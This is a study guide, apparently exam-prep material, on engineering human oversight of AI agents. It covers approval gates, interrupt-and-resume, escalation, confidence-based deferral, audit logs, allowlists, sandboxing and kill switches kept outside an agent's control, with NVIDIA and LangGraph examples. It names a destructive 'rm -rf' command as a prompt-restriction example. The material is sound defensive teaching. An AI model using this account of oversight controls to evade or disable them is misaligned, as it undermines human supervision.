


# Domain 10: Human-AI Interaction and Oversight (5%)

> NCP-AAI blueprint coverage: human-in-the-loop patterns (approval gates, interrupt-and-resume, escalation paths, HITL vs HOTL vs HOOTL), confidence thresholds & selective deferral, transparency (explanations, citations, tool-use traces), agent UX (streaming, progress, undo/confirmation, trust calibration), oversight engineering (least privilege, allowlists/denylists, audit logs, kill switches, sandboxing).
> Note: some published exam-prep guides cite this domain at 5% (official NVIDIA page) — either way it is a small but highly scenario-driven domain. Expect ~3-5 questions, almost all "pick the best design" scenarios.

## 1. Why this matters (exam + real agents)

Agents differ from chatbots in one decisive way: they *act* — call APIs, move money, delete data, send emails. The moment an LLM's output becomes an action instead of a suggestion, the cost of a wrong token jumps from "bad answer" to "irreversible damage." This domain is about engineering the human's place in that action loop: when the agent must stop and ask (HITL), when a human merely watches and can intervene (HOTL), when the agent runs free (HOOTL), and the machinery that makes all three safe — checkpoints, confidence-based deferral, transparent traces, reversible UX, and hard runtime controls (least privilege, allowlists, audit logs, kill switches, sandboxes). The exam tests whether you can match the *right amount of human oversight* to the *risk and reversibility* of an action, and whether you know NVIDIA's tooling for it (NeMo Agent Toolkit HITL, NeMo Guardrails, observability exporters).

## 2. Mental model

**Analogy: a junior trader at a bank.** A new trader (the agent) can look up prices and draft trades freely (autonomous, low risk). Trades above a limit need a supervisor's sign-off *before* execution (HITL approval gate). The compliance desk watches the live blotter and can freeze the account at any time (HOTL monitoring + kill switch). Every trade is logged immutably (audit log), the trader only has access to the desks they're authorized for (least privilege / allowlist), they work on a simulated book first (sandbox), and when they're unsure they're trained to escalate to a senior (confidence threshold → selective deferral). As they prove reliable, their limits are raised (trust calibration / progressive autonomy).



## 3. Core concepts

### 3.1 The oversight spectrum: HITL vs HOTL vs HOOTL

| Model | Human's role | Agent pauses? | Latency cost | Best for | Failure mode if misapplied |
|---|---|---|---|---|---|
| **Human-in-the-loop (HITL)** | Approves/edits/rejects *before* the action executes | Yes — blocks on human | High | Irreversible, high-blast-radius, regulated actions (wire transfer, prod deletion, sending external email) | Approval fatigue if used for everything; humans rubber-stamp |
| **Human-on-the-loop (HOTL)** | Monitors in real time, can intervene/override; agent doesn't wait | No | Low | Medium-risk, high-volume flows (content moderation queue, ops automation) | Human attention drifts; intervention comes too late |
| **Human-out-of-the-loop (HOOTL)** | No runtime involvement; oversight is after-the-fact audits, logs, rate limits, spot checks | No | None | Low-risk, reversible, well-tested actions at scale (read-only lookups, cache refresh) | Silent error accumulation if logging/auditing is weak |

Key exam heuristic: **risk and reversibility decide the loop position, not convenience.** The higher the risk and the less reversible the action, the closer the human must be to the action. Production systems layer all three: HITL for the few dangerous actions, HOTL for the middle, HOOTL for the safe bulk. A common target in mature systems is ~5-15% of tasks escalated to a human; 0% means your gates are too loose, 50% means the agent isn't adding value.

**The finer-grained ladder (and "human-in-command").** The three-tier HITL/HOTL/HOOTL split is the coarse view. A more granular ladder runs **fully automated → automated + logging → automated + alerts → approval-required → HITL → HOTL → human-in-command**, moving from max autonomy/min oversight (left) to min autonomy/max oversight (right). The two endpoints worth knowing for the exam:

- **Human-in-command (HIC)** — the *EU AI Act* term (alongside HITL and HOTL) for the strongest oversight: the human makes every decision and the agent only *recommends/drafts*; the human also decides *whether and when to use the system at all*. (Analogy: a driver who can always override the autopilot.) On the NVIDIA stack, HIC is realized by having the agent produce **structured output** (a proposal) and stopping there — execution is the human's to trigger. Distinguish HIC ("agent drafts, human acts") from HITL ("agent acts after the human approves the specific step").
- **Automated + logging / automated + alerts** sit *left* of approval-required: the agent acts without blocking, but every action is **logged** (post-hoc review) or specific action types **alert** a monitor. These are the HOOTL-with-teeth and HOTL-lite rungs — useful when a scenario says "let it run but make sure we can review/get pinged."

Each rung maps to an NVIDIA primitive: *automated + logging* → NAT audit/observability; *automated + alerts* → NAT observability metrics/traces; *approval-required* → NeMo Guardrails execution rail + NAT interactive workflow; *HITL/HOTL* → NAT interactive workflows (WebSocket/HTTP) with streaming; *human-in-command* → NAT structured output. The exam may ask you to place a described system on this ladder and name the primitive.

### 3.2 Approval gates for high-risk / irreversible actions

**What:** a hard checkpoint where the agent must obtain explicit human consent before executing a *specific* action (not before every step).
**Why:** LLMs are probabilistic; an approval gate converts "probably right" into "verified right" exactly where errors are unrecoverable.
**How:** classify tools/actions by risk at design time → gate only the risky ones → on trigger, pause execution, persist state, present the *proposed action with its arguments* to a human, resume on decision.

The canonical decision set is four options, not two:
- **Approve** — execute as proposed.
- **Edit** — human modifies the tool arguments, then execute (keeps the human in control without restarting the workflow).
- **Reject (with feedback)** — feedback goes back to the model so it can re-plan.
- **Respond** — answer a question the agent asked instead of executing anything.

Tiny example: a DevOps agent may run `kubectl get` freely (allowlisted), but `kubectl delete namespace` is gated — the UI shows "Agent wants to run: delete namespace `payments-prod`. Approve / Edit / Reject?"

### 3.3 Interrupt-and-resume workflows (LangGraph interrupts + checkpointing)

This is the standard implementation pattern the blueprint names explicitly. In LangGraph:

1. **Checkpointing:** every graph step reads/writes a **checkpoint** of graph state via a checkpointer (e.g., `MemorySaver` for dev, Postgres/Redis savers for prod), keyed by a **`thread_id`**. Persistence is what makes pausing safe — the wait can be seconds or days, and it survives process restarts.
2. **Interrupt:** inside a node, calling **`interrupt(payload)`** halts execution, marks the thread as interrupted, and stores the payload (e.g., the proposed tool call) in the persistence layer for the client/UI to read.
3. **Resume:** the client re-invokes the graph with **`Command(resume=<human decision>)`** on the same `thread_id`; the graph continues from the checkpoint, and the node receives the human's value as the return of `interrupt()`.

```python
from langgraph.types import interrupt, Command

def transfer_funds(state):
    decision = interrupt({"action": "wire", "amount": state["amt"]})  # pauses here
    if decision["approve"]:
        ...  # execute
# later, after human reviews:
graph.invoke(Command(resume={"approve": True}), config={"configurable": {"thread_id": "t1"}})
```

LangChain also ships a **HITL middleware** that wraps tool calls and auto-interrupts on configured tools with the approve/edit/reject/respond decision set. Gotchas the exam can probe:
- `interrupt()` **requires a checkpointer** configured — no persistence, no interrupt.
- On resume, the **node re-runs from its start** (code before `interrupt()` executes again) — side effects before the interrupt must be idempotent.
- Old-style "static breakpoints" (`interrupt_before=["node"]`) pause before a node; the dynamic `interrupt()` function is the modern, conditional, in-node mechanism.
- In production, add a TTL/expiry job for threads never resumed (abandoned approvals).

### 3.4 Escalation paths

**What:** a predefined route for transferring a task from agent to human (or from cheap model → strong model → human) when the agent can't or shouldn't proceed.
**Why:** "fail closed to a human" beats "guess." Escalation is the safety valve for low confidence, policy boundaries, repeated tool failures, user frustration, or explicit user request ("let me talk to a person").
**How it works well:** the handoff carries **full context** — conversation history, tool traces, the agent's tentative conclusion and its uncertainty — so the human doesn't restart from zero; the system defines *who* receives it (tiered queues), *SLA*, and *what the agent says* meanwhile. A degenerate escalation ("Sorry, I can't help") with no route or context is an anti-pattern.

Cascade pattern: small model answers → if confidence < τ₁, defer to large model → if still < τ₂, escalate to human. This trades cost/latency against accuracy with humans as the final tier.

**The five canonical escalation triggers** (and how each is wired on the NVIDIA stack):
1. **Confidence threshold** — model's confidence below τ → escalate. *(Output-parse a confidence score; an execution rail gates on it.)*
2. **Domain boundary** — request crosses into a domain the agent isn't built for. *(An input-classification rail detects out-of-domain.)*
3. **Safety trigger** — a guardrail fires on input or intermediate output. *(NeMo Guardrails content/input rails naturally route to escalation.)*
4. **Repeated failure** — a step retried more than N times. *(NAT step counting + an execution rail.)*
5. **User request** — the user explicitly asks for a human.

Anti-pattern: a **single escalation queue** for everything — domain experts waste time on out-of-domain cases and bottleneck. Route by **domain, severity, and required expertise** (tiered queues), not one inbox.

**Feedback loops (human corrections as training signal).** Oversight produces free labels: a human *rejecting* an action, *editing* an argument, or *correcting* a draft. Capture them — log the rejection reason, the original-vs-edited pair — and feed them into the **NAT evaluation framework as regression tests** (low-rated turns become "must not regress" cases; high-rated turns become golden cases). This is the data flywheel: corrections improve prompts, tune guardrails, and update tools over time. Not capturing corrections means the agent repeats the same mistake forever. (Watch the bias: users over-rate so-so answers 4-5 and only 1-2 when angry — pair the star rating with a structured "was this correct? Y/N".)

### 3.5 Confidence thresholds and selective deferral

**What:** the agent estimates how likely it is to be correct and only acts autonomously above a threshold τ; below it, it abstains/defers (to a human, a stronger model, or a clarifying question).
**Why:** uniform autonomy is wrong for a probabilistic system — selective deferral concentrates human attention where the model is least reliable.
**How:**
- **Confidence signals:** token log-probabilities / predictive probability, self-consistency (sample N times, measure agreement), LLM-as-judge verifier scores, retrieval similarity scores in RAG, or a trained "performance predictor" meta-model.
- **Threshold calibration:** τ trades **coverage** (fraction handled autonomously) against **precision/risk** (error rate of what it handles). Calibrate τ on a labeled validation set against a target error rate; re-calibrate after model or prompt changes. Raw LLM self-reported confidence ("I'm 95% sure") is poorly calibrated — don't use it as-is.
- **Selective deferral in action:** an invoice-processing agent auto-posts invoices when extraction confidence ≥ 0.92, routes 0.7-0.92 to a human review queue, and rejects/flags below 0.7.

### 3.6 Transparency: explanations, citations, tool-use traces

| Mechanism | What it exposes | Why it matters |
|---|---|---|
| **Decision explanations** | The agent's reasoning summary for *why* it chose an action/answer | Lets humans judge whether to trust/override; required in regulated domains |
| **Source citations** | Which retrieved documents/chunks ground each claim (RAG) | Verifiability; converts "trust me" into "check me"; reduces perceived hallucination risk |
| **Tool-use traces** | Every tool call: name, arguments, result, latency, ordering | Debuggability + auditability; the raw material for HOTL monitoring and post-hoc review |

How it works in practice: structure outputs so each claim links to a source ID; render the agent's plan/steps ("Searched CRM → found 3 accounts → drafting email") instead of a black-box spinner; export traces in OpenTelemetry format to an observability backend (Phoenix, Langfuse, Weave, LangSmith) so reviewers can replay an entire run span-by-span. Transparency is the *enabler* of HOTL: you cannot supervise what you cannot see.

Caution the exam likes: exposing **raw chain-of-thought** to end users is not best practice (verbosity, prompt-injection leakage, over-trust in plausible-sounding reasoning); expose *structured summaries, citations, and action traces* instead.

### 3.7 Agent UX: streaming, progress, undo/confirmation, trust calibration

- **Streaming feedback:** stream tokens and intermediate events (tool started/finished) rather than blocking until done. Reduces perceived latency, lets the user catch a wrong direction early, and makes interruption meaningful ("stop" mid-run).
- **Progress indication:** for multi-step plans, show the plan and step status ("Step 2/5: querying inventory API"). Users tolerate long runs when they can see legible progress; an opaque 90-second spinner destroys trust.
- **Undo + confirmation for irreversible actions:** confirmation *before* (the approval gate, with the exact action and arguments shown, and an Edit option) and undo *after* (an action audit log in the UI with per-action reversal where possible — recall the email, soft-delete with retention). Friction should match risk: no confirmation for read-only actions, explicit typed confirmation for destructive ones.
- **Trust calibration:** the goal is *appropriate* trust — users should trust the agent exactly as much as it deserves, neither over-trust (automation bias: rubber-stamping everything) nor under-trust (micro-managing a reliable agent). Techniques: show confidence/uncertainty honestly, explain failures legibly instead of hiding them, **progressive autonomy** (start supervised, expand the agent's unsupervised scope as it demonstrates reliability per action type), and keep handoff boundaries explicit so users always know who is in control.



### 3.8 Oversight engineering (hard controls)

These are *environment-level* controls that hold even if the model is jailbroken or misaligned — never rely on prompts alone for safety.

- **Least-privilege tool access:** each agent gets only the tools, scopes, and credentials its task needs — read-only DB role for an analytics agent, send-only mail scope for a notifier; per-agent service accounts, short-lived scoped tokens, no shared admin creds. In multi-agent systems, privileges are per-agent, not per-system.
- **Action allowlists / denylists:** an **allowlist** (default-deny: only enumerated actions/commands/domains permitted) is strictly safer than a **denylist** (default-allow: block known-bad), because denylists can't enumerate unknown attacks. Exam answer: prefer allowlist/deny-by-default for production agents; denylists are a supplementary layer. Granularity matters: allow `git status`, not "git *"; allow POST to one endpoint, not the whole API.
- **Audit logs:** append-only, tamper-evident records of every action — who/which agent, what tool, what arguments, what result, timestamp, correlation/trace ID, and *who approved* gated actions. They enable HOOTL after-the-fact oversight, incident forensics, and compliance (e.g., EU AI Act human-oversight expectations). Implemented in practice via OTel traces shipped to an observability store plus immutable application logs.
- **Kill switches:** an out-of-band mechanism to instantly halt one agent, one workflow, or the whole fleet — revoke credentials, cut tool/network access, pause the queue. Must live *outside* the agent's control plane (an agent must not be able to disable its own kill switch) and should be paired with anomaly triggers (spend rate, action rate, error spikes) for automatic tripping. Graceful design: checkpoint state on halt so work can resume after investigation.
- **Sandboxing:** execute agent-generated code/commands in isolated, disposable environments (containers, microVMs, network-egress-restricted) so a bad action "breaks the sandbox, not the host." Essential for code-execution tools, browser agents, and self-modifying agents. NVIDIA's OpenShell (below) is the NVIDIA-stack instantiation (a standalone Apache-2.0 runtime, kernel-level isolation via a per-sandbox container): out-of-process policy enforcement + sandboxed execution + deny-by-default permissions.

Defense-in-depth ordering: prompts/guardrails (soft) → tool-layer validation → permissions/allowlists (hard) → sandbox/isolation (hard) → monitoring/audit/kill switch (detect & stop).

## 4. NVIDIA-specific layer

| NVIDIA asset | Role in this domain | When to choose it |
|---|---|---|
| **NeMo Agent Toolkit (NAT)** — HITL plugin system | First-class human-in-the-loop: `Context.get().user_interaction_manager` → `prompt_user_input(...)` pauses the workflow for human input; Pydantic interaction models (`HumanPromptText`, approval-style prompts); reference `hitl_approval_function` (e.g., `simple_calculator_hitl` example asks yes/no before raising the ReAct agent's `max_iterations`); configurable HITL **timeout** (default: no timeout; when set, server raises `TimeoutError` if no response). Full interaction models work under `nat serve` (WebSocket message schema for prompts/responses); `nat run` supports only `HumanPromptText`. | You're building on NVIDIA's agent stack and want framework-agnostic HITL gates wired via YAML config + plugins rather than hand-rolled pause logic. NAT wraps LangGraph/LangChain/CrewAI/etc., so it complements (not replaces) LangGraph interrupts. |
| **NeMo Agent Toolkit UI** | Reference web UI that renders HITL prompts, streams intermediate steps/tokens over WebSocket, and shows tool activity — the "agent UX" layer (streaming, progress, approval dialogs) out of the box. | Demo/internal tooling; pattern reference for production UIs. |
| **NAT observability/profiling** | `general.telemetry` config section (`logging` + `tracing`) with built-in exporters: **Phoenix, Langfuse, W&B Weave, LangSmith**, and generic **OTLP/OpenTelemetry** — yields per-function spans, token counts, latencies, full tool-use traces = transparency + audit substrate. | Tool-use traces and audit logs on the NVIDIA stack with a few YAML lines instead of custom instrumentation. |
| **NeMo Guardrails** | Programmable runtime rails in `config.yml` + Colang flows. Five rail types: **input, dialog, retrieval, output, execution** (execution rails wrap custom actions/tools — the guardrail layer closest to action oversight). Built-in self-check input/output, fact-checking/hallucination checks; can block, alter, or stop a flow — an automated gate that *complements* human gates. | Automated, policy-as-config enforcement on every turn; pair with HITL so humans handle only what rails can't decide. |
| **NemoGuard NIMs / NVIDIA AI Safety Recipe** | Deployable safety models: **Llama 3.1 NemoGuard 8B Content Safety**, **NemoGuard 8B Topic Control**, **NemoGuard Jailbreak Detect**; **garak** LLM vulnerability scanner pre-deployment; recipe reported content-safety 88%→94% and security resilience 56%→63% with no measurable accuracy loss. | Enterprise-grade automated moderation tiers in front of/behind the agent so human oversight focuses on actions, not every utterance. |
| **NVIDIA OpenShell** (standalone open-source agent runtime, Apache 2.0; complements the NVIDIA agent stack) | Oversight-engineering runtime: **out-of-process policy enforcement** (controls live outside the agent's reach), **sandboxed execution** for long-running/self-evolving agents, **deny-by-default granular permissions** (evaluated at binary/destination/method/path level), agents can *propose* policy updates for developer final approval, **privacy router** (keeps sensitive context local on open models; routes to frontier models like Claude/GPT only when policy allows), full **audit trail** of every allow/deny decision, live (hot-reloadable) policy updates. | You need hard containment (sandbox + permissions + audit) for autonomous coding/ops agents on NVIDIA infra — the "kill-switch/sandbox/allowlist" blueprint topics made concrete. |

Generic-vs-NVIDIA guidance: LangGraph `interrupt()` is the canonical *mechanism* the exam names for pause/resume; NAT is NVIDIA's *orchestration layer* that adds config-driven HITL, evaluation, profiling, and observability across frameworks; NeMo Guardrails is the *automated* policy layer; OpenShell is the *containment* layer. Know which layer a scenario is asking about.

### 4.1 NAT interactive workflows: WebSocket *and* HTTP

The HITL pause/resume in NAT runs over a **bidirectional channel** between the deployed FastAPI server and the client. The agent (1) sends the human a request — input, clarification, or approval; (2) pauses; (3) resumes with the human's value injected. Two transports:

- **WebSocket** (`nat serve` over `/websocket`) — real-time, bidirectional; carries the **full interaction-model set** (text prompts, approval/choice widgets) and streams intermediate steps/tokens for HOTL monitoring. This is the primary HITL transport.
- **HTTP interactive execution** — for environments where WebSocket support is limited, NAT also runs HITL **over plain HTTP**: the server returns a *pending-interaction* response with a request ID, the client POSTs the human's answer back to resume. Same approve/clarify pattern, polling instead of a live socket.

Exam-relevant: HITL is **not WebSocket-only** in NAT — "WebSocket *or* HTTP" is the correct framing. WebSocket is preferred for live streaming + the richer prompt widgets; HTTP is the fallback for restricted deployments.

### 4.2 NAT authentication & per-user functions (least privilege, NVIDIA-specific)

NAT has a first-class **authentication provider** layer configured under the **`authentication`** key in the workflow YAML; each provider declares a `_type`. Supported provider types (know this list — the exam likes "which auth methods does NAT support?"):

| `_type` | Method | Typical use |
|---|---|---|
| `api_key` | API key | Simple token-based access |
| `oauth2_auth_code_flow` | **OAuth2 Authorization Code Grant Flow** (`OAuth2AuthCodeFlowProviderConfig`) | Delegated user access; works over WebSocket *and* HTTP; NAT acts as an OAuth2 client (manages token lifecycle + consent prompts) |
| `http_basic_auth` | HTTP Basic (username/password) | Simple setups |
| (bearer/credential validator) | Bearer-token / JWT validation | Service-to-service calls |
| MCP service account | MCP service-account auth | Agent-to-agent auth in MCP deployments |

OAuth2 gotcha: the **`redirect_uri`** in the workflow config must match the registered redirect URI in the provider's console, or auth fails. With per-user OAuth, **each user gets their own workflow instance + MCP client**, prompted to authenticate on first request, with **per-user token isolation** (encrypted at rest; backends include in-memory, Redis, MySQL, S3; automatic refresh).

**Per-user functions** are the oversight payoff: NAT exposes **different tool sets per authenticated role**. A regular user sees read-only tools (search/lookup); a power user adds write tools (send_email, create_ticket); an admin gets destructive tools (delete_record). This is **least privilege enforced at the agent level** — an agent acting for a regular user *literally does not have* `delete_record` in its tool set, so it cannot call it even if the model "decides" to. It is both a security control and an oversight control (capability isolation by user authority).

> Defense-in-depth note: filtering tools from the tool list is necessary but not sufficient — the LLM may still *attempt* a tool it shouldn't. Back per-user filtering with an **execution-rail permission check** before any tool executes, so an out-of-list call is blocked at runtime, not just hidden.

### 4.3 NeMo Guardrails execution rail as an automated approval gate (worked Colang)

Execution rails (Module 8 / §4) wrap custom actions; used for oversight, a rail **intercepts a tool call, decides whether it needs approval (by tool name / args / risk), and pauses for human review** — composing with NAT's interactive workflow (the rail asks; NAT carries the prompt over WebSocket/HTTP; the human's answer flows back to the rail).

```colang
# gate financial actions over $500 — requires human approval
define flow check_financial_action
  when tool_call "issue_refund" or tool_call "process_payment"
    if $amount > 500
      $approval = await request_human_approval(
        action=$tool_name, details=$tool_input,
        reason="Amount exceeds $500 threshold")
      if not $approval
        bot refuse action "Action requires approval and was denied."
        stop
```

```python
# the action the rail calls — bridges to the active NAT interactive session
async def request_human_approval(action, details, risk_level) -> bool:
    wf = get_active_workflow()                 # the live WebSocket/HTTP session
    if wf is None:                             # no human attached:
        return False                           # fail CLOSED (deny by default)
    return await wf.request_approval(action=action, details=details)

rails.register_action(request_human_approval, name="request_human_approval")
```

Exam point: an execution rail gating a tool **intercepts and can require approval before execution** — it does not silently auto-reject (that's a denylist) and does not just log-and-run (that's middleware/logging). The "fail closed" default when no approver is available is the safe design.

### 4.4 Synchronous vs asynchronous approval + graceful degradation

| | **Synchronous approval** | **Asynchronous approval** |
|---|---|---|
| Behavior | Agent **blocks** until the human responds | Agent **queues** the action and releases resources (or completes other work) |
| Pros | Simple, deterministic, human always in the loop | Human reviews at their convenience; no held resources |
| Cons | Human availability is the bottleneck; resources held during the wait | More state management; must handle "human never responds" |
| NAT implementation | NAT interactive workflow (WebSocket/HTTP) **with a timeout** | NAT async job management (Dask) + notification + an approval queue |

**Graceful degradation is mandatory when the approver is unavailable.** On timeout, the correct fallbacks are: (a) **queue the action for later review**, or (b) **inform the user it's pending approval**. The wrong answer — always — is "timeout → execute anyway," which defeats the entire gate. (NAT prompt timeouts raise `TimeoutError`; catch it and degrade safely.) "Blocking without timeout" is itself an anti-pattern: an agent that waits forever holds resources indefinitely if the human is in a meeting.

### 4.5 The compliance / auditability stack (who · should · what · audit · how)

Regulators (EU AI Act human-oversight duties; SOX/MiFID II for financial decisions; HIPAA for PHI) demand **traceability, accountability, and reviewability**. On the NVIDIA stack these come from *composing* primitives, not a single feature:

```
Authentication (NAT auth)        → WHO requested this?     (user identity, role)
   ↓
Execution rail (NeMo Guardrails) → SHOULD this be allowed? (policy check / approval gate)
   ↓
Agent execution (NAT)            → WHAT did the agent do?  (full action trace)
   ↓
Audit log + redaction            → audit RECORD            (logged, PII-redacted, queryable)
   ↓
Observability (NAT OTel)         → HOW did it perform?     (metrics, traces, cost)
```

- **Traceability** — every action traces to a specific user request (trace/correlation IDs in the spans + audit entries).
- **Accountability** — every action is tied to an *authenticated* user (and, for gated actions, the *approver's* identity).
- **Reviewability** — the audit log is human-readable, **queryable/indexed**, and **PII-redacted** (regex or, better, an NLP/Presidio-based redactor — regex misses spelled-out PII). An unsearchable pile of JSONL is "compliance theater," not an audit trail.

The audit log should be **append-only and tamper-evident** (hash-chain each entry: `entry_hash = sha256(prev_hash + entry)`); a broken chain reveals after-the-fact edits. Watch the **single-writer** caveat: concurrent sessions writing one chain corrupt ordering — funnel audit writes through one queue/lock.

### 4.6 NVIDIA-documented vs inferred (likely meta-question)

The exam may test whether you can separate NVIDIA's *primitives* from *design patterns* layered on top:

- **NVIDIA-documented:** WebSocket/HTTP interactive workflows, NeMo Guardrails execution rails, per-user functions + authentication providers, observability/tracing, structured output.
- **Inferred from general practice (NVIDIA gives primitives, not the pattern):** approval-workflow design (sync/async), escalation paths with confidence thresholds, asynchronous approval *queues*, feedback loops, graceful degradation.

If a question offers "escalation paths with confidence thresholds — NVIDIA-documented," that's the trap: the *trigger* is a design pattern; only the implementation primitives (execution rail, output parsing, step counting) are NVIDIA features.

## 5. Decision frameworks

**Loop position by risk:**

| Scenario property | Choose |
|---|---|
| Irreversible, high blast radius, regulated, low volume | HITL approval gate (blocking) |
| Reversible or medium risk, high volume, needs speed | HOTL: execute + monitor + intervene capability |
| Low risk, well-tested, reversible, massive scale | HOOTL + audit logs + rate limits + spot checks |
| Model unsure (below confidence threshold) regardless of risk | Selective deferral / escalation |

**Mechanism selection:**

| Need | Use | Not |
|---|---|---|
| Pause a LangGraph agent for approval, resume days later | `interrupt()` + checkpointer + `Command(resume=...)` on same `thread_id` | Polling loops, `input()`, sleeping threads |
| Config-driven HITL in an NVIDIA multi-framework workflow | NeMo Agent Toolkit `user_interaction_manager.prompt_user_input` | Hardcoding approval logic in each tool |
| Block toxic/off-topic content automatically every turn | NeMo Guardrails input/output rails (+ NemoGuard NIMs) | Routing every message to a human |
| Guard a *tool call's* inputs/outputs inside Guardrails | **Execution rails** | Dialog rails (those shape conversation flow) |
| Restrict what commands an agent can ever run | Allowlist / deny-by-default permissions (OpenShell-style), least-privilege creds | System-prompt instructions ("never delete files") |
| Contain agent-generated code execution | Sandbox (container/microVM, egress-restricted) | Trusting the model + a denylist |
| Stop a runaway agent fleet *now* | Out-of-band kill switch (revoke creds / cut tool access) | Sending the agent a "please stop" message |
| Verifiable answers in RAG | Citations to retrieved chunks | Exposing raw chain-of-thought |
| Reviewer needs to reconstruct what an agent did | OTel tool-use traces (Phoenix/Langfuse/Weave) + append-only audit log | Conversation transcript alone |

**Threshold tuning:** raising τ → fewer errors reach production but more human workload (coverage drops); lowering τ → more autonomy, more risk. Calibrate against a target error rate on validation data; revisit whenever the model, prompt, or data distribution changes.

## 6. Exam traps & gotchas

1. **HITL vs HOTL confusion:** HITL = agent *waits* for approval before acting; HOTL = agent acts, human monitors and can intervene/override. "Reviews outcomes on a dashboard and can pause the agent" is HOTL, not HITL.
2. **"Gate everything" is wrong:** approval gates on every step cause approval fatigue and rubber-stamping. Correct answer: gate only high-risk/irreversible actions; the rest is monitored or autonomous.
3. **LangGraph `interrupt()` without a checkpointer doesn't work:** interrupts depend on persistence (checkpoints + `thread_id`). Any answer that pauses/resumes without state persistence is broken.
4. **Resume re-executes the node from its beginning** (code before `interrupt()` runs again) — side effects placed before the interrupt must be idempotent. Resume requires the *same* `thread_id`, via `Command(resume=...)`, not a fresh invoke.
5. **Allowlist vs denylist:** allowlist = default-deny = safer; denylist = default-allow = bypassable by anything not enumerated. The exam's "most secure" option is allowlist/deny-by-default — and prompt-level restrictions ("do not run rm -rf") are *not* a security control at all.
6. **Prompts and guardrails are soft; permissions and sandboxes are hard.** If a scenario involves jailbreak/prompt injection, the right mitigation is environment-level (least privilege, sandbox, out-of-process policy enforcement à la OpenShell), not a sterner system prompt.
7. **Kill switch must be outside the agent's control plane.** A tool the agent itself calls to shut down, or a prompt instruction to stop, is not a kill switch. Also distinguish kill switch (immediate halt, out-of-band) from approval gate (planned pause).
8. **Raw LLM self-reported confidence is poorly calibrated.** Selective deferral needs calibrated signals (logprobs, self-consistency, verifier/judge scores, meta-models) and a threshold tuned on validation data — not "ask the model how sure it is" verbatim.
9. **Transparency ≠ dumping chain-of-thought.** Best practice is structured explanations, source citations, and tool-use traces; raw CoT to end users risks over-trust and leakage.
10. **More transparency/oversight ≠ maximum trust; the goal is *calibrated* trust.** Watch for distractor answers that maximize user trust (over-trust/automation bias is also a failure) instead of matching trust to actual reliability.
11. **NeMo rail-type mix-ups:** *execution* rails wrap custom actions/tools; *dialog* rails steer conversation flow; *retrieval* rails filter RAG chunks. A question about guarding a tool's I/O wants execution rails.
12. **NAT HITL details:** interaction models are Pydantic (`HumanPromptText` etc.); full set supported under `nat serve` (WebSocket), while `nat run` supports only `HumanPromptText`; HITL prompts can carry a timeout (server raises `TimeoutError` on expiry; default is no timeout).
13. **Undo ≠ confirmation:** confirmation is *pre-action* friction for irreversible ops; undo is *post-action* reversal for reversible ones. Irreversible actions need confirmation precisely because undo is impossible — an answer offering "undo" for a sent wire transfer is a trap.
14. **Audit logging is not optional in HOOTL.** Removing the human from the loop *raises* the bar for logging, rate limits, and after-the-fact review; "fully autonomous, so no logging needed" is always wrong.
15. **HIC ≠ HITL.** Human-in-command = agent only *recommends/drafts*, human makes every decision and decides whether to use the system at all (EU AI Act term, realized via NAT structured output). HITL = agent *acts after* per-step approval. "Agent generates a report for the human to send" is HIC, not HITL.
16. **NAT HITL is WebSocket *or* HTTP.** The pause/resume primary transport is WebSocket, but NAT also supports HITL/OAuth interactive execution **over plain HTTP** for WebSocket-limited environments. "WebSocket is the *only* way" is wrong.
